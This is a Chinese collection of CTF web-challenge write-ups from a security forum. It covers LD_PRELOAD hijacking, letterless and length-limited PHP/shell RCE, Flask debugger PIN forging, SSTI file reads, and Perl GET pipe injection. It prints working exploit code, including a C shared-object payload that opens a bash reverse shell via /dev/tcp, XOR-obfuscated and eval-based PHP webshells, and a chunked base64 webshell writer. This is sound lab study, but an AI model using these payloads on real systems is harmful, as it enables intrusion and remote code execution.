# CTF一些有意思考点+例题详细分析系列-先知社区

> **来源**: https://xz.aliyun.com/news/16241  
> **文章ID**: 16241

---

# CTF一些有意思考点+例题详细分析系列

## 前言

这里放一些自己刷过比较有意思的一些题目合集

## uploadandinject

### 考察内容

putenv 配合 LDPPRELOAD

### 解题

开题

可以加载内容



点击了没有反应  
根据提示  
hint.php



就是缓存文件

恢复后内容如下

```
$PATH=$_GET["image_path"];
if((!isset($PATH))){
    $PATH="upload/1.jpg";
}
echo "<div align='center'>";
loadimg($PATH);
echo "</div>";
function loadimg($img_path){
  if(file_exists($img_path)){
      //设置环境变量的值 添加 setting 到服务器环境变量。 环境变量仅存活于当前请求期间。 在请求结束时环境会恢复到初始状态 设置.so  LD_PRELOAD设置的优先加载动态链接库 
    putenv("LD_PRELOAD=/var/www/html/$img_path");
    system("echo Success to load");
    echo "<br>";
  }else{
    system("echo Failed to load ");
  }
}

```

我们看关键部分putenv("LD\_PRELOAD=/var/www/html/$img\_path");竟然我们可以控制，考点就明显了，就是劫持 ld，我们看看这里面有没有什么触发的函数，只有一个 system

这里的思路就是劫持 system  
一个 payload

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'");
}

char *strcpy (char *__restrict __dest, const char *__restrict __src) { 
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}

```

然后加载为 so 文件

执行 gcc -shared -fPIC exp.c -o exp.so

然后扫描了一波目录还有

<http://node5.anna.nssctf.cn:25002/upload/upload.php>



可以上传文件

大概思路就是反弹 shell，so 文件加载然后劫持后执行反弹 shell 的命令

发现不能上传so文件，但是LD\_PRELOAD也能解析jpg后缀所以修改后缀上传就可以  
回到index.php 加载 upload/exp.jpg 服务器上拿到shell



## simple\_bypass

### 考察内容

闭合思想，无字符 rce

### 解题

进入题目就是登录和注册页面，怀疑是 sql 漏洞，但是这种我们一般是先注册登录进去看看，登录进去后发现


然后我们随便点一点，这种就是要找特别的东西，毫无疑问最特别的就是


然后我们这时候我们就要好好分析这个，图片？我们打开看看，发现是一堆base64编码，我们去解码发现就是一个文件路径，稍微敏感一点就怀疑是不是有任意文件读取漏洞，我们仔细分析，f12发现这个文件的url头是<http://node4.anna.nssctf.cn:28530/get_pic.php?image=img/haokangde.png，那其实很明显了，可以读文件，我们读查看get_pic.php>

<http://1.14.71.254:28358/get_pic.php?image=get_pic.php>  
进行base64解码

```
<?php error_reporting(0);
 $image = (string)$_GET['image']; 
echo '<div class="img">  </div>'; 
?>
```

读取index.php（下面是把前端代码删除之后的结果）  
<http://1.14.71.254:28358/get_pic.php?image=index.php>

```
<?php
error_reporting(0);
if(isset($_POST['user']) && isset($_POST['pass'])){
    $hash_user = md5($_POST['user']);
    $hash_pass = 'zsf'.md5($_POST['pass']);
    if(isset($_POST['punctuation'])){
        //filter
        if (strlen($_POST['user']) > 6){
            echo("<script>alert('Username is too long!');</script>");
        }
        elseif(strlen($_POST['website']) > 25){
            echo("<script>alert('Website is too long!');</script>");
        }
        elseif(strlen($_POST['punctuation']) > 1000){
            echo("<script>alert('Punctuation is too long!');</script>");
        }
        else{
            if(preg_match('/[^\w\/\(\)\*<>]/', $_POST['user']) === 0){
                if (preg_match('/[^\w\/\*:\.\;\(\)\n<>]/', $_POST['website']) === 0){
                    $_POST['punctuation'] = preg_replace("/[a-z,A-Z,0-9>\?]/","",$_POST['punctuation']);
                    $template = file_get_contents('./template.html');
                    $content = str_replace("__USER__", $_POST['user'], $template);
                    $content = str_replace("__PASS__", $hash_pass, $content);
                    $content = str_replace("__WEBSITE__", $_POST['website'], $content);
                    $content = str_replace("__PUNC__", $_POST['punctuation'], $content);
                    file_put_contents('sandbox/'.$hash_user.'.php', $content);
                    echo("<script>alert('Successed!');</script>");
                }
                else{
                    echo("<script>alert('Invalid chars in website!');</script>");
                }
            }
            else{
                echo("<script>alert('Invalid chars in username!');</script>");
            }
        }
    }
    else{
        setcookie("user", $_POST['user'], time()+3600);
        setcookie("pass", $hash_pass, time()+3600);
        Header("Location:sandbox/$hash_user.php");
    }
}
?>
```

然后是template.html内容

```
<?php
    error_reporting(0);
    $user = ((string)__USER__);
    $pass = ((string)__PASS__);

    if(isset($_COOKIE['user']) && isset($_COOKIE['pass']) && $_COOKIE['user'] === $user && $_COOKIE['pass'] === $pass){
            echo($_COOKIE['user']);
    }
    else{
        die("<script>alert('Permission denied!');</script>");
    }
    ?>
    </li>
      </ul>
      <ul class="item">
        <li><span class="sitting_btn"></span>系统设置</li>
        <li><span class="help_btn"></span>使用指南 <b></b></li>
        <li><span class="about_btn"></span>关于我们</li>
        <li><span class="logout_btn"></span>退出系统</li>
      </ul>
    </div>
  </div>
</div>
<a href="#" class="powered_by">__PUNC__</a>
<ul id="deskIcon">
  <li class="desktop_icon" id="win5" path="https://image.baidu.com/"> <span class="icon"></span>
    <div class="text">图片
      <div class="right_cron"></div>
    </div>
  </li>
  <li class="desktop_icon" id="win6" path="http://www.4399.com/"> <span class="icon"></span>
    <div class="text">游戏
      <div class="right_cron"></div>
    </div>
  </li>
  <li class="desktop_icon" id="win10" path="../get_pic.php?image=img/haokangde.png"> <span class="icon"></span>
    <div class="text"><b>好康的</b>
      <div class="right_cron"></div>
    </div>
  </li>
  <li class="desktop_icon" id="win16" path="__WEBSITE__"> <span class="icon"></span>
    <div class="text"><b>你的网站</b>
```

开始分析，很明显的点就是利用file\_put\_contents函数写shell，文件名知道，主要是文件内容，所以得分析$contents，content内容取决于

```
$content = str_replace("__USER__", $_POST['user'], $template);
                    $content = str_replace("__PASS__", $hash_pass, $content);
                    $content = str_replace("__WEBSITE__", $_POST['website'], $content);
                    $content = str_replace("__PUNC__", $_POST['punctuation'], $content);
```

很容易可以排除user参数，有长度限制，六个字符，不好写，  
website，长度限制25，这里是可以写shell的，过滤了一些符号  
punctuation可以说没有长度限制，但是过滤了大小写字母  
我们思路已经出来了，通过punctuation写shell，无字母rce  
我们写入的无字母rce必须当成php代码执行，但是我们通过template.html发现只有user和pass才是在php代码部分，而`<a href="#" class="powered_by">__PUNC__</a>`在html部分，不会以php代码执行，所以就无效，我们自己加呗，但是又过滤了<?，自己不能加，只能使用别人的了，观察页面，因为我们的优势是很多参数是可控的，我们想到注释符，把后面?>注释掉，让后面的内容都为php代码，具体大概是

```
<?php

    $user = ((string)/*);
    $pass = ((string)__PASS__);

    if(isset($_COOKIE['user']) && isset($_COOKIE['pass']) && $_COOKIE['user'] === $user && $_COOKIE['pass'] === $pass){
            echo($_COOKIE['user']);
    }
    else{
        die("<script>alert('Permission denied!');</script>");
    }
    ?>
    </li>
      </ul>
      <ul class="item">
        <li><span class="sitting_btn"></span>系统设置</li>
        <li><span class="help_btn"></span>使用指南 <b></b></li>
        <li><span class="about_btn"></span>关于我们</li>
        <li><span class="logout_btn"></span>退出系统</li>
      </ul>
    </div>
  </div>
</div>
<a href="#" class="powered_by">*/*</a>
<ul id="deskIcon">
......
```

可以看到，我们直接把里面的?>给注释了，那么下面所有的html代码都将包裹在php环境中被解释。但是由于上面可以看见$user=((string)的转换函数还在，所以需要先添加内容后再闭合，否则页面将报错，包括后面的html代码通通需要注释，最后大概变成下面这种形式，我们的pass最好不要输入内容，可能影响shell  
shell构造的方法很多，借鉴p神的一个



所以我们最终传入POST

```
user=1)/*&pass=aa&website=&punctuation=*/;$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);/*
```

然后输入命令找flag

然后看到一个很有意思的方法

由于不好看，且没有禁file\_put*contents()  
所以可以再写一个马  
`POST:* =file\_put\_contents('shell.php','<?php eval($\_POST[1]);?>');`  
然后蚁剑连接这个文件，得到flag

### 反思

一般url头中无中生有的参数都是我们可能利用的点，源码中我们首先需要找到危险函数，让我们有读写的权限的一般都很危险，还需要找到我们能够控制的参数，然后再看我们控制参数最后的位置，然后闭合思想也是非常重要的

## ezrce

### 考察内容

限制字符长度rce

### 解题

首先进入页面叫我们输入命令，随便输一个ls，发现命令已在回显为./tmp/目录下成功执行  
思考，在tmp目录下执行，我们访问试一试发现没有结果，因为tmp是个目录，接下来我们就随便输入命令试一试，发现有字符串长度限制为6，很明显考点就是字符串长度限制  
首先说一个比较简单但是巧合的wp

```
>nl
* /*>d

第一个：创建一个叫nl的文件
* /*>d 意思就是 nl /*>f  第一个*就是将ls列出文件名第一个当作命令 其他当作参数来自yb0os5师傅
```

因为很巧的就是flag就在跟目录，如果不在都做不出  
下面是比较通用的wp  
首先需要知道一些命令的意思

```
a 在Linux会创建一个叫a的文件
*>v 会将ls列出的第一个文件名当作命令 其余当作参数执行
*v>0 等价于 rev v >0 反转
sh 0 将0文件的内容当作命令执行
ls -th 按照文件的创建时间（后创建先列出）ls -t就可以 这里加上h是为了按照 sl ht- f\>排列
linux下换行执行命令：
ech\
o\
首先需要明确我们需要仔细的命令，比如写入一句话木马，我们最好base64编码，可以除去很多符号，下面就是yb0os5师傅的脚本
```

```
url="http://43.142.108.3:28933/post.php"
print("[+]start attack!!!")
with open("5字符RCE.txt", "r") as f:
    for i in f:
        data = {"cmd": f"{i.strip()}"}
        requests.post(url=url,data=data)

resp = requests.get("http://43.142.108.3:28933/tmp/1.php")
if resp.status_code == requests.codes.ok:
    print("[*]Attack success!!!")


5字符RCE.txt
>dir
>sl
>ht-
>f\>
*>v
>rev
*v>0
>hp
>1.p\\
>d\>\\
>\ -\\
>e64\\
>bas\\
>7\|\\
>XSk\\
>Fsx\\
>dFV\\
>kX0\\
>bCg\\
>XZh\\
>AgZ\\
>waH\\
>PD9\\
>o\ \\
>ech\\
sh 0
sh f
```

省去一个一个写的麻烦  
大概的意思就是echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php当然我这样base64编码和他不一样  
然后意思就是往tmp目录写了一个文件叫做1.php，里面是木马  
后面怎么做就很简单了

## FlaskApp

### 考察知识

flask之pin码计算

生成pin码的六要素

服务器运行flask所登录的用户名。通过/etc/passwd中可以猜测为flaskweb 或者root，此处用的flaskweb  
modname。一般不变就是flask.app  
getattr(app, “name”, app.class.name)。python该值一般为Flask，该值一般不变  
flask库下app.py的绝对路径。报错信息会泄露该值。题中为/usr/local/lib/python3.7/site-packages/flask/app.py  
当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address获取(eth0为网卡名)，本题为02:42:ae:01:0d:25，转换后为2485410401573  
机器的id：对于非docker机每一个机器都会有自已唯一的id  
Linux：/etc/machine-id或/proc/sys/kernel/random/boot\_i，有的系统没有这两个文件  
docker：/proc/self/cgroup

### 解题

这题很多方式做，我主要将一下利用pin码的做法  
首先我们需要去获取上面的六要素

```
{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd','r').read() }}=
```

获取用户名



(2) modname 一般不变就是flask.app  
(3)getattr(app, “name”, app.class.name)。python该值一般为Flask ，值一般不变  
(4）flask库下app.py的绝对路径。在报错信息中可以获取此值为： /usr/local/lib/python3.7/site-packages/flask/app.py



（5）当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address读取，eth0为当前使用的网卡  
{{ c.**init**.**globals**['**builtins**'].open('/sys/class/net/eth0/address','r').read() }}



将0242ae00da83转换为10进制为：2485410388611  
(6)docker机器id  
对于非docker机每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot\_i，有的系统没有这两个文件。  
对于docker机则读取/proc/self/cgroup，其中第一行的/docker/字符串后面的内容作为机器的id

```
{{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup','r').read() }}
```

结果是：1:name=systemd:/docker/310e09efcc43ceb10e426a0ffc99add5c651575fe93627e6019400d4520272ed 0::/system.slice/containerd.service

计算pin码的脚本

使用脚本

```
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485410388611',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '310e09efcc43ceb10e426a0ffc99add5c651575fe93627e6019400d4520272ed'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

就可以得到自己的pin码  
在之前的报错页面，点击右侧命令行图案，输入pin



然后就可以在控制台输入命令了



参考链接  
<https://blog.csdn.net/scrawman/article/details/118931844>

## SSRFme

### 考察知识

get命令执行漏洞

### 解题

源码如下



前面是获取你的真实ip并输出到页面上，对于解题没有作用  
然后创建文件。  
mkdir 命令是 "make directory" 的缩写，用于创建一个新目录。  
chdir 命令是 "change directory" 的缩写，用于更改当前工作目录  
然后data就是内容  
GET escapeshellarg($\_GET['url']) 这行代码的作用是获取 URL 参数中名为 url 的值，并将其转义为 shell 可以接受的格式。  
就是确保命令可以执行，如果了解get命令执行漏洞就发现这题破解之法就是这里  
然后使用pathinfo函数去把filename分成不同的部分，然后又创建文件，将data放入文件中

**什么是get命令执行漏洞**

在perl语言中，open函数存在命令执行漏洞：如果open文件名中存在管道符（也叫或符号|），就会将文件名直接以命令的形式执行，然后将命令的结果存到与命令同名的文件中。本题中调用了GET函数，而GET函数底层调用了open函数。  
下面是代码示例部分  
GET函数部分源码：

```
# URL OK, look at file
my $path  = $url->file;

# test file exists and is readable
unless (-e $path) {
return HTTP::Response->new( &HTTP::Status::RC_NOT_FOUND,
              "File `$path' does not exist");
}
...
# read the file
if ($method ne "HEAD") {
open(F, $path) or return new
    HTTP::Response(&HTTP::Status::RC_INTERNAL_SERVER_ERROR,
           "Cannot read file '$path': $!");
```

这里GET函数运行open前会检查是否存在文件，如果不存在就会报文件不存在，无法继续执行，所以这里需要存在一个名字和命令相同的文件。  
执行测试

ricter@baka:/tmp/a$ touch 'id|' 创建文件“id|”  
ricter@baka:/tmp/a$ GET 'file:id|' 使用GET，使用file协议读取文件”id|“  
uid=1000(ricter) gid=1000(ricter) groups=1000(ricter) # 触发漏洞

**解决本题**

我们先找文件，?url=/&filename=lll，这样会把根目录文件放在lll文件中，我们去访问lll文件会看到flag文件和readflag文件，这种题就很明白了，执行readflag去得到flag  
现在需要执行命令，我们就需要利用get命令执行漏洞了  
首先把我们需要执行的命令当成文件名  
?url=&filename=bash -c /readflag|  
现在已经创建了一个名叫bash -c /readflag|的文件  
去执行这个命令?url=file:bash -c /readflag|&filename=ll，执行命令的结果放在ll中，我们直接去访问ll得到flag

## Guess Who I Am

### 考察知识

python脚本编写

### 解题

进入题目不多说，就是猜名字，然后对100次就得到flag，然后还有提示，我们找到了人员的信息，这里不贴出来了。然后，然后就是看wp  
因为自己的脚本能力自己还是心知肚明的，看别人脚本都要理解半天，首先明确脚本的功能，根据给出的intro，找到对应的id，怎么获取每次的intro，怎么获取每次的id又是问题  
**思考1：intro怎么获取**  
很好发现回显页面就有每次的intro,那我们是不是只需要抓取回显的信息就好了

```
import requests
getscore = "http://node5.anna.nssctf.cn:28612/api/getScore"
getquestion = 'http://node5.anna.nssctf.cn:28612/api/getQuestion'
verifyanswer = "http://node5.anna.nssctf.cn:28612/api/verifyAnswer"
r2 = requests.get(getquestion)
r2 = requests.get(getquestion)
print(r2.text)
```

回显为：{"message":"16 级 / 立志学术的统计er / R / 为楼上的脱单事业做出了贡献"}  
当然上面那个api接口抓包是可以获取的，但是这里有个问题就是这个数据格式很明显是json格式，我们需要获取message的值得转化为python字典形式  
学习一下python的一些转json格式的方法

json()方法用于解析JSON格式的数据，通过调用json()方法，可以将其转换为Python中的对应数据类型，如字典或列表，以便进行进一步的处理和访问。  
或者json.loads一样的，但是需要引入json  
所以我们获得新脚本

```
import requests
getscore = "http://node5.anna.nssctf.cn:28612/api/getScore"
getquestion = 'http://node5.anna.nssctf.cn:28612/api/getQuestion'
verifyanswer = "http://node5.anna.nssctf.cn:28612/api/verifyAnswer"
r2 = requests.get(getquestion)
data=r2.json()
print(data['message'])//单引号不能丢，这是字典调用的方法
```

or question = json.loads(r2.text)

```
print(question['message'])
```

这样就可以去获取message的值了，解决了第一个问题  
**问题二：怎么才能做到一个算法使intro和id相互匹配呢**  
我们不是获取了很多信息吗，那我们是不是只需要用获取信息的intro和这里的message比较，如果比较成功，则返回id，下面来实现一下这个功能  
我们首先处理我们获得的信息，处理方式还是要解析一下

```
shuju=json.loads(j_data)
```

然后要怎么获得字典里的具体数据呢

```
print(shuju[i]["intro"])
```

完美，剩下的就是循环匹配

```
for i in range(100):
    if shuju[i]["intro"]==data['message']:
        id=shuju[i]['id']
        print(id)
```

就可以获取id了  
**问题3：怎么将我们获取的id写入呢**  
这个问题应该不难，去你妹的不难，tm调试了半天，结果是题目环境过期了，怪不得一直报错，然后重开题目，又是调半天，下面就是成果  
在这里要将一个重要的东西，就是这个session  
s = requests.session()，必须有，不可或缺，因为这个score是需要记录的

s = requests.session()  
for i in range(len(shuju)):

```
r1 = s.get(getquestion)
data = r1.json()
if shuju[i]["intro"]==data['message']:
    id=shuju[i]['id']
    print(id)
    break
```

data2 = {"id": id}  
r2 = s.post(url=verifyanswer, data=data2)  
print(r2.text)

**第四个问题：怎么才能重复100次，让分数达到100获取flag**  
那就需要获取score的值，和100比较,所以啊，写脚本就是要知道自己的需求  
我们先看一下score回显页面是什么样的  
{"message":1}  
正确一次回显这个样子，那其实我们都不需要那么麻烦了。直接搞100次flag手到擒来

